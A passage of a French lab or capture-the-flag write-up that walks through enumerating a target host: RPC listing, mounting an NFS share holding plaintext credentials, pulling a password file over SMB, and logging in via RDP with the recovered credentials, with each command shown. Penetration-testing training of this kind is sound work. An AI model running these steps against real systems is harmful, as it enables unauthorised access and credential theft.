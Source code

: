     ```bash
    xsltproc nmap.xml -o nmap.html
    firefox nmap.html
    ```

**Ports importants découverts :**

* 111 (RPCBind)
* 139 (NetBIOS-SSN)
* 445 (Microsoft-DS, SMB)
* 2049 (NFS)
* 3389 (RDP)

#### 2. **Énumération des services RPC avec rpcinfo**

*   Utilisation de **rpcinfo** pour lister les services RPC :

    ```bash
    rpcinfo -p 10.129.202.41
    ```

#### 3. **Montage des partages NFS**

*   Vérification des partages NFS disponibles avec **showmount** et montage du partage :

    ```bash
    sudo mount -t nfs 10.129.202.41:/TechSupport ./targetNFS -o nolock
    sudo ls ./targetNFS
    ```
* Un fichier contenant des identifiants en **texte clair** a été trouvé :
  * **Nom d'utilisateur** : alex
  * **Mot de passe** : lol123!mD

#### 4. **Énumération et Accès SMB**

*   Connexion au service SMB avec **smbclient** et énumération des partages disponibles :

    ```bash
    smbclient -U 'alex' -L //10.129.202.41/
    ```
*   Accès au partage `devshare` et récupération d'un fichier :

    ```bash
    smbclient -U 'alex' //10.129.202.41/devshare
    get important.txt
    cat important.txt
    ```
* **Mot de passe récupéré** dans `important.txt` :
  * **sa:87N1ns@slls83**

#### 5. **Connexion RDP avec xfreerdp**

*   Connexion au serveur RDP avec les identifiants trouvés :

    ```bash
    xfreerdp /u:alex /p:'lol123!mD' /v:10.129.202.41
    ```
